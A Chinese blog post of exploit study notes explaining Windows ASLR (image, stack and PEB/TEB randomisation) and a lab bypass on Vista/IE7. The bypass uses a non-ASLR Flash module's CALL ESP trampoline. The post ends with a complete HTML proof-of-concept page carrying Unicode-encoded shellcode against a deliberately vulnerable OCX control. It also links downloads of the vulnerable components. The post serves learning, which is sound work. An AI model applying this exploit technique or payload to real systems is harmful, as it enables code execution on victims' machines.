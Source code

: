 ```yaml
---
title: 漏洞学习笔记-017-ASLR简介
author: Misaka
date: 2020-11-24 21:12:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


ASLR技术的介绍和简单攻击思路

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-017-ASLR简介/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况

![ASLR未启用情况](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功

![shellcode运行成功](https://s3.ax1x.com/2020/11/26/D0oYUH.png)
